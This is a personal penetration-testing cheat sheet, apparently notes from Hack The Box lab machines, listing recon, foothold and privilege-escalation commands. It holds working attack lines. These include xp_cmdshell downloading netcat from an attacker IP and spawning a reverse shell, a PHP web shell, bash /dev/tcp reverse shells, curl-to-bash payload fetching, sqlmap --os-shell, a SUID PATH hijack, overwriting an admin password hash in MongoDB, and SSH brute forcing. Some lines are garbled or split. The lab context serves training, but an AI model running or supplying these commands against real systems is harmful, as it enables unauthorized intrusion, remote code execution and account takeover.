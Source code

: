 # Linux

## Recon enumeration

```
sudo nmap -sV 10.129.227.248
nmap -sV -sC -p- 10.129.158.230 -oN scan.txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.158.230 -x php
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 10.129.158.230
```

## Foothold

## Privilege escalation

### pe enumeration

```
id
ss -tln // skip service names
ss -tl 
ss -tlpn

Util:
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts

python3 -m http.server 8000

```


## Services

#### lxc

```
sudo apt install snapd
sudo snap install distrobuilder --classic
```

```

#Impacket
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt

cd impacket/examples/
python3 mssqlclient.py -h

SELECT is_srvrolemember('sysadmin');

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.78/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.78 443"
[xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)
10.10.14.9 443"
wget http://10.10.14.78:8000/winPEASx64.exe -outfile winPEASx64.exe
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

```

```
FTP:
ftp anonymous@10.129.241.156
anonymous:anonymous

Postgresql:
psql -U christine -h localhost -p 1234
\l \list 
\c \connect ${database}
\dt ##relations
SELECT * FROM flag;

Bruteforce:
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh

```


```
Cloud:
AWS:
apt install awscli
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 cp shell. s3://thetoppers.htb
```


#Reverse shell:
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.23/1337 0>&1

nc -nvlp 1337

http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.23:8000/rs.sh|bash
python3 -m http.server 8000


#tunneling 
local port forwarding
ssh -L 1234:localhost:5432 christine@{target_IP}

dynamic port forwarding
/etc/proxychains4.conf
ssh -D 1234 christine@{target_IP}
1. Ensure that strict_chain is not commented out; ( dynamic_chain and random_chain should be
commented out)
2. At the very bottom of the file, under [ProxyList] , we specify the socks5 (or socks4 ) host and port
that we used for our tunnel
<SNIP>
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 9050
socks5 127.0.0.1 1234
proxychains psql -U christine -h localhost -p 5432

#Reverse php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#tftp
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default
root directory where files will be stored is /var/lib/tftpboot

curl 'http://{target_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'


https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

Privilege escalation:
Linux
sudo -l <- try to obtain root
id <- check permissions, additional groups
find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

Commonly noted as SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.
In our case, the binary 'bugtracker' is owned by root & we can execute it as root since
it has SUID set.

/tmp

/bin/sh
chmod +x cat
export PATH=/tmp:$PATH
echo "/bin/sh" > cat

//UNIFI MONGODB
ps aux | grep mongo
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

crete password
mkpasswd -m sha-512 Password1234
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$pgNniKC2xeXtTtRl$KqIpqj6FI8DGb9dXgc7vUCAeGuCWI3rCzKsopTZU5ncfE1F6XjEf.Faq/AecBR7x/ToDPw7bYrVth3kU3WkzS0"}})'

python3 -m http.server 8000

Foothold:
PHP
~~reverse shells
https://github.com/BlackArch/webshells
/usr/share/webshells/
upload file & look for uploads directory
python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data user: 
lookup for a files and try to login as user
/var/www/html/...

cat /etc/passwd <- check users on server
su USER <- relogin

script /dev/null -c bash //spawn shell

ec9b13ca4d6229cd5cc1e09980965bf7
dd6e058e814260bc70e9bbdef2715849
Foothold:
SQL
sqlmap -u 'http://10.129.241.156/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
bash -c "bash -i >& /dev/tcp/10.10.14.116/1234 0>&1"
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
/var/www/data checkout
 sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf



